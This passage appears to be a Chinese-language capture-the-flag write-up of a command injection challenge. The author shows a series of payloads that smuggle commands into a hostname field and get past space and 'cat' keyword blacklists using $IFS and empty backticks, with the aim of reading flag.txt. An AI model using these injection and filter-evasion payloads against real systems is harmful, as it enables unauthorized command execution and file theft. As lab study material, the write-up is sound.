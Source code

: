 經測試，可以嘗試建立 payload 如下
```
localhost};$(id)
```

![](https://i.imgur.com/IMz05ir.png)

成功執行命令，但只有輸出一部分，因此嘗試在外加入 `echo`，如下
```
localhost};echo $(id)
```

但發現會有錯誤

![](https://i.imgur.com/94b6r5v.png)


經嘗試發現可能是空白字元的黑名單導致，直接用 `$IFS` 繞過
```
localhost};echo$IFS$(id)
```

![](https://i.imgur.com/DVY9tRn.png)

成功繞過

順便，使用 `ls` 查看檔案
```
localhost};echo$IFS$(ls)
```

![](https://i.imgur.com/AP9d00L.png)

出現了 `flag.txt`，嘗試進行讀取
```
localhost};echo$IFS$(cat$IFSflag.txt)
```

出現錯誤

嘗試讀錯誤訊息，有出現不要提到貓科動物之類的，推測是有擋 `cat` 指令

![](https://i.imgur.com/9yug8To.png)

嘗試在指令中加入 `` 符號，規避單字的黑名單

```
localhost};echo$IFS$(ca``t$IFSflag.txt)
```

出了一點錯

![](https://i.imgur.com/H41LaAb.png)

嘗試修正命令

```
localhost};echo$IFS$(c``at$IFS``flag.txt)
```
